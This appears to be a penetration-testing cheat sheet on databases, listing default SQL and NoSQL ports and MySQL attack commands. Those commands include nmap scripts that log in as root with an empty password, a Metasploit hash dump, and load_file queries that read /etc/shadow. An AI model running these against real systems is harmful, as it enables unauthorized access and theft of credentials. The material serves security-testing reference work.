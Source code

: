 ```yaml
---
description: >-
  Structured Query Language (SQL) is a standardized programming language that is
  used to manage relational databases and perform various operations on the data
  in them.
---
```


# SQL

{% hint style="info" %}
### Relational databases default ports <a href="#relational-databases" id="relational-databases"></a>
{% endhint %}

| Database           | Port(s)    | Doc                                                                                     |
| ------------------ | ---------- | --------------------------------------------------------------------------------------- |
| MaxDB              | 7210       | [Doc](http://maxdb.sap.com/doc/7\_7/44/bf820566fa5e91e10000000a422035/content.htm)      |
| MySQL              | 3306       | [Doc](https://dev.mysql.com/doc/refman/5.7/en/security-guidelines.html)                 |
| Oracle DB          | 1521, 1830 | [Doc](https://docs.oracle.com/cd/B19306\_01/network.102/b14213/protocoladd.htm#i470539) |
| PostgreSQL         | 5432       | [Doc](https://www.postgresql.org/docs/9.1/static/runtime-config-connection.html)        |
| SQL Server (MSSQL) | 1433, 1434 | [Doc](https://msdn.microsoft.com/de-ch/library/cc646023.aspx)                           |

{% hint style="info" %}
### NoSQL databases and other data stores  default ports <a href="#nosql-databases-and-other-data-stores" id="nosql-databases-and-other-data-stores"></a>
{% endhint %}

| Database      | Port(s)                    | Doc                                                                                                  |
| ------------- | -------------------------- | ---------------------------------------------------------------------------------------------------- |
| Cassandra     | 7000, 7001, 9042           | [Doc](https://cassandra.apache.org/doc/latest/faq/index.html#what-ports)                             |
| CouchDB       | 5984                       | [Doc](http://docs.couchdb.org/en/2.0.0/config/http.html)                                             |
| Elasticsearch | 9200, 9300                 | [Doc](https://www.elastic.co/guide/en/elasticsearch/guide/current/\_talking\_to\_elasticsearch.html) |
| MongoDB       | 27017, 27018, 27019, 28017 | [Doc](https://docs.mongodb.com/v3.2/reference/default-mongodb-port/)                                 |
| Neo4J         | 7473, 7474                 | [Doc](https://neo4j.com/docs/stable/tools-webadmin.html)                                             |
| Redis         | 6379                       | [Doc](https://redis.io/topics/quickstart)                                                            |

## Enum

<pre class="language-bash"><code class="lang-bash"># Default scan
nmap $IP -sV -p 3306 

# Empty password script
nmap $IP -sV -p 3306 --script-empty-password

<strong># Get Mysql info
</strong>nmap $IP -sV -p 3306 --script-info

# Get mysql users
nmap $IP -sV -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"

<strong># Get mysql databases
</strong>nmap $IP -sV -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"

# Get mysql variables
nmap $IP -sV -p 3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"

# mysql audit
nmap $IP -sV -p 3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"

# Try to connect directly without a password
mysql -h $IP -u root

# Run query
nmap $IP -sV -p 3306 --script=mysql-query --script-args="query='select load_file("/etc/shadow");',mysqluser='root',mysqlpass=''"

# Metasploit way
msfconsole
set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
setg rhosts $IP
set verbose false
run

## Hashdump
msfconsole
use auxiliary/scanner/mysql/mysql_hashdump 
setg rhosts $IP
set username root
set password ""
run</code></pre>

#### Manipulate local files via db

```sql
# connect to instance
mysql -h $IP -u root

# read local file
select load_file("/etc/shadow");


```
